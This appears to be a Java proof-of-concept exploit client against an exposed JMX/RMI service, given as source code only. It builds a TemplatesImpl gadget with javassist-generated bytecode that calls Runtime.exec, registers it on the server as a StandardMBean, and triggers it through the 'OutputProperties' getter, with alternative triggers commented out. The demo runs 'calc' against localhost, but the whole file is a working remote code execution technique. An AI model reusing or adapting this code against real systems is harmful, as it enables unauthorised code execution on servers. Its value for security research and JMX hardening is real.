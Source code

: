 ```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.*;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Properties;

public class Client {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
        Map env = new Properties();

        MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

        ObjectName objectName = new ObjectName("Test:type=test");

        String className = StandardMBean.class.getName();
        String[] ctorArgTypes = new String[] { Object.class.getName(), Class.class.getName() };
        Object[] ctorArgs = new Object[] { templates, Templates.class };

        con.createMBean(className, objectName, ctorArgs, ctorArgTypes);
        // invokes getOuputProperties() indirectly via attribute getter
        con.getAttribute(objectName, "OutputProperties");
        // invoke getOutputProperties() directly
        // con.invoke(objectName, "getOutputProperties", new Object[0], new String[0]);
        // invoke newTransformer() directly
        // con.invoke(objectName, "newTransformer", new Object[0], new String[0]);

        con.unregisterMBean(objectName);
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }
}
```